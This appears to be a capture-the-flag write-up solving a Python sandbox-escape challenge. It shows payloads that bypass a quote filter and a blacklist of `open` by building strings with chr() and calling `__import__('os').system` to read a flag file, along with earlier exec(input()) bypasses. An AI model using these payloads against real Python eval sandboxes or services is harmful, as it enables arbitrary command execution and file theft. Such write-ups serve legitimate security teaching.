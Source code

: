 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
```py
__import__("os").system("type flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x74, 0x79, 0x70, 0x65, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Unix:
```py
__import__("os").system("cat flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x63, 0x61, 0x74, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Crossplatform (using pathlib):
```py
__import__("pathlib").Path("flag").read_text()
# encoded:
__import__(str().join(map(chr, [112, 97, 116, 104, 108, 105, 98]))).Path(str().join(map(chr, [102, 108, 97, 103]))).read_text()
```

## Fun solutions before I resticted it more
Without blocking `exec` and `eval`:
```py
:exec(input())
while True: exec(input('> '))
> from pathlib import *
> print(pathlib.Path('flag').read_text())
```
Without blocking `input`:
`__import__(input()).Path(input()).read_text()`
